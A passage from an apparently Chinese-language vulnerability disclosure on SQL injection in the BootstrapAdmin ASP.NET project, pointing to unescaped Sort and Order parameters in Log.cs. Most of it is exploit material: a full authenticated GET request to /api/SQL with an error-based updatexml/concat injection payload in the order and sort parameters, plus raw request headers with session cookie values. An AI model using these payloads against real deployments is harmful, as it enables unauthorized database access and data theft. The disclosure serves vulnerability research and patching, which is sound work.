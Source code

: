 ```python
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNYIk8qTrVAchQMdNQDsqE0fBboelKrRDrSlcNGeSNFI1jNSivWc5b5t8tkI1SES8xumGS6HdMyCcTFdEqocP7y74P26iG_iKW6RRYrazzhQNkcvDfYzcxAzdbm-f5FqO88; .AspNetCore.Cookies=CfDJ8Gs8oXs1rxRKjEnWjDIDxNaE3CXKRjutQdTU9MI2xO1nRk7yd-9PgK41JPtnvxNoybJwZclKPosGkyWisjmmpaB2xJkLw04jWnB1ZpvrHYBNhbm02wR62IXpOdYVnmBRgSs7UrKRDnk-fAR9CRWNiYrLr5Dq9irg-R7uxSbuwu1A-eKvcQUsLvd_nvlRmExl_ay-3wo0v1rvUe1pwpbhyzzda5HLQbh0XOMmor5h0q66o9vFYO5dgBUGqYxpBidWCv0PoKzqGQeA_8dxsBolEctWPrQEKakod3mJ1HrIKQR1
Connection: close

```

更多利用方式请看：<https://yang1k.github.io/post/sql%E6%B3%A8%E5%85%A5%E4%B9%8Border-by%E6%B3%A8%E5%85%A5/>

### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\Log.cs`  
在SQL语句拼接时`Sort`和`Order`没有使用 Linq 进行转义

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-a031ac28af01d380820d107b07dc143f72362ba0.png)

【后台】查询所有SQL日志信息接口存在SQL注入
------------------------

权限：后台普通用户权限

### 漏洞利用

`http://localhost:50852/api/SQL`  
`http://localhost:50852/api/SQL?offset=0&limit=20&UserName=&OperateTimeStart=2023-05-06&OperateTimeEnd=&order=concat(0x7e,database(),0x7e),3)&sort=updatexml(1,`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-ecc2ec005d1d788bbddd5c9eb9165517a312c351.png)

请求包：

```python
GET /api/SQL?offset=0&limit=20&UserName=&OperateTimeStart=2023-05-06&OperateTimeEnd=&order=concat(0x7e,database(),0x7e),3)&sort=updatexml(1, HTTP/1.1
Host: localhost:50852
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/SQL
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNYIk8qTrVAchQMdNQDsqE0fBboelKrRDrSlcNGeSNFI1jNSivWc5b5t8tkI1SES8xumGS6HdMyCcTFdEqocP7y74P26iG_iKW6RRYrazzhQNkcvDfYzcxAzdbm-f5FqO88; .AspNetCore.Cookies=CfDJ8Gs8oXs1rxRKjEnWjDIDxNaE3CXKRjutQdTU9MI2xO1nRk7yd-9PgK41JPtnvxNoybJwZclKPosGkyWisjmmpaB2xJkLw04jWnB1ZpvrHYBNhbm02wR62IXpOdYVnmBRgSs7UrKRDnk-fAR9CRWNiYrLr5Dq9irg-R7uxSbuwu1A-eKvcQUsLvd_nvlRmExl_ay-3wo0v1rvUe1pwpbhyzzda5HLQbh0XOMmor5h0q66o9vFYO5dgBUGqYxpBidWCv0PoKzqGQeA_8dxsBolEctWPrQEKakod3mJ1HrIKQR1
Connection: close

```
